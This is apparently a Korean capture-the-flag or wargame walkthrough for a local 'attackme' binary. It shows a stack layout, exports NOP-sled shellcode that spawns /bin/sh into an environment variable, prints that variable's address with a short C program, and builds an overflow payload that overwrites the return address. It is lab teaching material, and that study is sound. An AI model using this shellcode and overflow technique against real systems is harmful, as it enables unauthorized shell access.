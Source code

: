 |argv[1] 4byte|
|:---:|
|argv 4byte|
|ret 4byte|
|sfp 4byte|
|dummy 8byte|
|i 4byte|
|dummy 12byte|
|buf 1024byte|

6. 스택 구조를 파악했으니 ret을 shell code의 주소로 덮어씌우는 공격 페이로드를 작성해보자.  
```
export shell = `python -c 'print "\x90"*50+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

echo $shell을 해보면 공격 코드가 들어있는 환경변수가 출력된다!
```  

7. 해당 환경변수의 주소를 얻는 소스코드를 실행시켜 환경변수의 값을 알아낸다.
```
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[1]){
	char *env;

	env=getenv("SHELL");
	printf("address = %p\n",env);

	return 0;
}
```  
```
gcc -o getenv getenv.c  
./getenv
```  
컴파일 후 실행시키면 쉘코드의 주소가 나온다.  

9. 이제 페이로드를 작성해보자.  
선언된 buf 크기 1024 + dummy 값만큼 null을 채워주고,  
if문 조건을 우회하기 위해 선언된 변수 i의 값은 그대로 넣어준다.(리틀엔디안으로)  
그리고 남은 dummy와 sfp를 마저 채우고 ret주소를 shell code가 등록된 환경변수 주소 값을 넣어주면 된다.  
```
./attackme `python -c 'print "\x90"*1036+"\x67\x45\x23\x01"+"\x90"*12+"(환경변수 주소 리틀엔디안으로)"'`

// 리틀엔디안 예시
쉘코드 주소 = 0xbffffef6
페이로드 안의 쉘코드 주소 = \xf6\xfe\xff\xbf
```  
